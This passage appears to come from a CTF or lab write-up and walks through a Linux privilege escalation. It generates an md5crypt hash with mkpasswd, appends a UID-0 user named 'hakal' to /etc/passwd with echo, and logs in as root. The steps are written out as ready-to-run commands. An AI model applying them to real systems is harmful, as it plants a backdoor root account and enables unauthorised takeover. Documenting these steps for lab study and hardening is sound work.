    - Use `mkpasswd`:

     ```bash
     mkpasswd -m md5crypt -s
     ```

     - Enter a password (e.g., `123`).

     ![Evidence of payload and privilege escalation method 3](32.png)

2. **Prepare Malicious Entry:**

   - Create an entry:

     ```
     hakal:$1$Dhk.lMO1$nJeZfbQNSMUbSRAwkNzuk0:0:0:hakal:/root:/bin/bash
     ```

3. **Inject into `/etc/passwd`:**

   - Input:

     ```
     echo 'hakal:$1$Dhk.lMO1$nJeZfbQNSMUbSRAwkNzuk0:0:0:hakal:/root:/bin/bash' >> /etc/passwd
     ```

     ![Evidence of payload and privilege escalation method 3X](33.png)

4. **Switch to New User:**

   - Login as `hakal` with the specified password.

**Explanation:**

- **Effect:** Creates a new user with UID `0` (root).
- **Result:** Root access via the new user.

---